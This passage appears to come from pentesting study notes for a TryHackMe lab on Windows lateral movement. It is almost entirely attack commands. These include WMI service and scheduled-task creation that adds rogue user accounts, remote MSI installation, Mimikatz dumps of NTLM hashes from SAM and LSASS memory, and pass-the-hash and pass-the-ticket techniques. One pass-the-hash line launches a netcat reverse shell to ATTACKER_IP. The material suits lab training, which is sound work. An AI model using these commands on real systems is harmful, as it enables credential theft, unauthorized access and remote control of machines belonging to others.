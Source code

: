 ```powershell
PathName = "net user munra2 Pass123 /add"; # Your payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}
# Handle and start the service
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"
Invoke-CimMethod -InputObject $Service -MethodName StartService
# Stop and delete the service
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete

# Creating Scheduled Tasks Remotely with WMI
# Payload must be split in Command and Args
$Command = "cmd.exe"
$Args = "/c net user munra22 aSdf1234 /add"
$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask2"
Start-ScheduledTask -CimSession $Session -TaskName "THMtask2"
# To delete the scheduled task after it has been used
Unregister-ScheduledTask -CimSession $Session -TaskName "THMtask2"

# Installing MSI packages
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi # same in legacy systems
```
{% endcode %}

## Alternate Authentication (no need to know user's password)

{% code overflow="wrap" fullWidth="true" %}
```powershell
# Pass-the-Hash
# Extracting NTLM hashes from local SAM (only hashes from local users)
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # lsadump::sam
# Extracting NTLM hashes from LSASS memory (hashes for local users and any domain user recently logged on the machine)
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # sekurlsa::msv
# PTH with Mimikatz
mimikatz # token::revert
mimikatz # sekurlsa::pth /user:bob.jenkins /domain:za.tryhackme.com /ntlm:6b4a57f67805a663c818106dc0648484 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5555"
# PTH with Linux
xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH
psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP
evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH

# Pass-the-Ticket (needs ticket and session key, to extract TGT we would need administrator's creds)
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
mimikatz # kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-ZA.TRYHACKME.COM.kirbi
klist

# Overpass-the-hash / Pass-the-Key
```

[192.168.50.73]: PS C:\Users\jen\Documents> whoami 